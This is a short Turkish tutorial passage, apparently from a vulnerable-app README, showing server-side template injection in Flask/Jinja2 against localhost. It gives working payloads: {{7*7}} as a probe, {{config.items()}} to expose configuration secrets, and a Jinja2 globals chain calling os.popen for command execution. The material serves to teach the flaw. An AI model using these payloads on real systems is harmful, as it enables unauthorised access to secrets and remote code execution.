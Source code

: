 ### Deneme:
- Tarayıcıdan şu URL'yi ziyaret et: http://localhost:5000/?name={{7*7}}
Web sayfasında şu yazıyı görürsün: Merhaba 49

Bu, Jinja2 template engine’in kullanıcı girdisini şablon gibi işlediğini gösterir.
Kötü niyetli biri bunun yerine şunu da deneyebilir:
- http://localhost:5000/?name={{config.items()}}

-Bu açık sayesinde: Gizli yapılandırma bilgilerine erişilebilir.
- Daha ileri düzeyde kod çalıştırma yapılabilir: {{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('ls').read() }} gibi komutlarla shell erişimi bile sağlanabilir.
